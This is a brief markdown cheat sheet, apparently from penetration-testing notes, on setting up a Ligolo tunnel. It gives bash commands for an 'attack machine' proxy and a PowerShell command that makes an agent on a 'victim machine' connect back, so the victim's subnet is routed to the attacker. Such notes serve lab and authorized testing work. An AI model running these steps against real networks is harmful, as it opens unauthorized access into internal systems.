 ### Ligolo Tunneling - Port Forwarding

**Get the Ligolo Proxy and the Agent executables**
1. On the attack machine:
```bash
sudo ip tuntap add user hutgrabber mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:443 [any port and loopback]
# in another window:
sudo ip route add [victim subnet]/CIDR dev ligolo
# inside the proxy
start
```

2. On the victim machine:
```powershell
./agent -connect [attack ip]:[port] -ignore-cert
```


